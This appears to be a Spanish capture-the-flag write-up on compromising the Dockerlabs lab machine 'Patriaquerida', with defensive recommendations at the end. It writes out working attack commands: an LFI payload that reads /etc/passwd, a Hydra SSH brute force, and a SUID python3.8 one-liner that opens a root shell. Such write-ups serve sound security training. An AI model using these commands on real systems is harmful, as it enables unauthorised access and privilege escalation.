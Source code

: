# 🛡️ Informe de Pentesting – Máquina: Patriaquerida

## 🎯 Objetivo

El objetivo de esta práctica fue realizar un análisis de seguridad sobre la máquina virtual **Patriaquerida**, identificando posibles vulnerabilidades que permitan obtener acceso no autorizado y escalar privilegios hasta el usuario root.

---

## ⚙️ 1. Despliegue de la Máquina

* Se descargó el archivo `Patriaquerida.zip` desde la plataforma Dockerlabs.
* Se descomprimió usando el comando:

  ```bash
  unzip Patriaquerida.zip
  ```
* Se desplegó con el script:

  ```bash
  sudo bash auto_deploy.sh Patriaquerida.zip
  ```

![Inicio](/Patriaquerida/Imagenes/Inicio.jpeg)

---

## 🌐 2. Verificación de Conectividad

* Se confirmó que la máquina estaba activa con un simple *ping*:

  ```bash
  ping -c4 172.17.0.2
  ```

![Ping](/Patriaquerida/Imagenes/Ping.jpeg)

---

## 🔍 3. Escaneo de Puertos

* Se utilizó Nmap para detectar todos los puertos abiertos:

  ```bash
  sudo nmap -p- -oopen -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts.txt
  ```

* Resultado: puertos **22 (SSH)** y **80 (HTTP)** abiertos.
  ![Puertos](/Patriaquerida/Imagenes/Puertos.jpeg)

* Luego, se realizó un escaneo más detallado:

  ```bash
  extractPorts allPorts.txt
  nmap -sC -sV -p 22,80 172.17.0.2 -oN target.txt
  ```

![Servicios](/Patriaquerida/Imagenes/Servicios.jpeg)

---

## 🌐 4. Análisis del Sitio Web

* El sitio web era la página por defecto de Apache.
  ![Pagina](/Patriaquerida/Imagenes/Pagina.jpeg)

---

## 🪓 5. Descubrimiento de Recursos Ocultos

* Se utilizó **Gobuster** para descubrir directorios y archivos ocultos:

  ```bash
  gobuster dir -u http://172.17.0.2 \
  -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt \
  -t 20 -add-slash -b 403,404 -x php,html,txt
  ```
* Se descubrió un archivo `index.php`, que revelaba un archivo oculto: `.hidden_pass`.
  ![Gobuster](/Patriaquerida/Imagenes/Gubuster.jpeg)
  ![PHP](/Patriaquerida/Imagenes/php.jpeg)

---

## 🔑 6. Obtención de Credenciales

* Al acceder a `http://172.17.0.2/.hidden_pass` se encontró la contraseña: `balu`
  ![Contraseña](/Patriaquerida/Imagenes/Contraseña.jpeg)

---

## 🛠️ 7. Escaneo de Vulnerabilidades Web

* Se utilizó **Nikto** para escanear el sitio:

  ```bash
  nikto -h http://172.17.0.2/index.php
  ```
* El escaneo reveló la posibilidad de usar *Local File Inclusion (LFI)*.
  ![Nikto](/Patriaquerida/Imagenes/nikto.jpeg)

---

## 🧠 8. Explotación de LFI

* Se explotó LFI con esta URL:

  ```
  http://172.17.0.2/index.php?page=../../../../etc/passwd
  ```
* Se accedió al archivo `/etc/passwd`, revelando usuarios del sistema:

  * `pinguino`
  * `mario`
  * `root`
    ![Informacion](/Patriaquerida/Imagenes/Informacion.jpeg)

---

## 🔓 9. Ataque de Fuerza Bruta con Hydra

* Se crearon dos archivos:

  * `usuarios.txt` con los nombres encontrados.
  * `contraseña.txt` con la contraseña `balu`.
* Se ejecutó Hydra para probar credenciales vía SSH:

  ```bash
  hydra -L usuarios.txt -P contraseña.txt ssh://172.17.0.2 -t 50
  ```
* Credenciales válidas encontradas: `pinguino : balu`
  ![Hydra](/Patriaquerida/Imagenes/Hydra.jpeg)

---

## 🐧 10. Acceso al Sistema

* Se accedió por SSH:

  ```bash
  ssh pinguino@172.17.0.2
  ```

![SSH](/Patriaquerida/Imagenes/SSH.jpeg)

---

## 🚀 11. Escalada de Privilegios

### ¿Qué es escalada de privilegios?

Es el proceso de obtener más privilegios de los que se tienen originalmente. En este caso, se buscaba obtener permisos de **root**.

### Técnica utilizada:

1. Se buscaron binarios con el bit SUID activado:

   ```bash
   find / -perm -4000 2>/dev/null
   ```
2. Se encontró `/usr/bin/python3.8` con SUID.
3. Se usó este comando para ejecutar una shell como root:

   ```python
   python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
   ```
4. ¡Shell de root obtenida!
   ![Escalada](/Patriaquerida/Imagenes/Escalada.jpeg)

---

## ✅ Conclusiones

| Etapa                       | Descripción                                                                          |
| --------------------------- | ------------------------------------------------------------------------------------ |
| **Descubrimiento**          | Fuzzing, LFI y escaneo de puertos revelaron información clave.                       |
| **Credenciales**            | Se halló una contraseña en un archivo oculto y se utilizó para atacar SSH con éxito. |
| **Acceso Inicial**          | Se ingresó como `pinguino` vía SSH.                                                  |
| **Escalada de Privilegios** | Se explotó un binario con permisos SUID (python3.8) para obtener acceso root.        |

---

## 🧩 Recomendaciones

* **Eliminar archivos ocultos** con información sensible (como `.hidden_pass`).
* **Restringir el uso del bit SUID**, especialmente en binarios como Python.
* **Filtrar entradas de usuarios** para evitar LFI.
* **Monitorear intentos de fuerza bruta** en SSH.
* **Usar contraseñas seguras y únicas**.

